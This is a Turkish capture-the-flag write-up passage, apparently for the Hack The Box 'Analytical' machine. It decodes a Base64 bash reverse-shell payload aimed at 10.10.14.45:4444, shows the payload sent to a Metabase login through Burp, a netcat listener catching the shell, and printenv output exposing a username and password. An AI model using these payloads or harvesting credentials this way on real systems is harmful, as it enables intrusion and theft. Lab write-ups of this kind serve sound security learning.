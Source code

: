 Burada Base64 ile kodlanmış olarak gözüken değer (`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK`) reverse shell almak için kullanılacak olan payload (`bash -i >&/dev/tcp/10.10.14.45/4444 0>&1`) kodudur.

Bu PoC kodunu kullanabilmek için ilk önce [http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login) adresine gidip bağlantıyı Burp ile yakaladım. Yakaladığım bağlantıyı Burp Repeater kısmına gönderdikten sonra Request kısmını bu PoC bilgisi ile güncelledim. Send ile göndermeden önce Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Bunun ardından Send ile gönderdiğimde Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.233] 55382
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d12f07ea59fe:/$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

İçinde bulunduğum dizinde herhangi bir bayrak dosyası yoktu, bu yüzden farklı denemelerde bulundum. Nihayetinde aşağıda verdiğim kod parçası beni tekrardan doğru yola soktu:

```bash
find / -name *env 2> /dev/null
```

```text title="Output" hl_lines="3"
/bin/printenv
/usr/bin/env
/usr/lib/bash/printenv
/.dockerenv
```

Arama sonuçlarından elde ettiğim bilgilerden yola çıkarak `printenv` komutunu kullandım ve bu komut bana aşağıdaki çıktıyı sağladı:

```text title="Output" hl_lines="13 14"
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d12f07ea59fe
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
```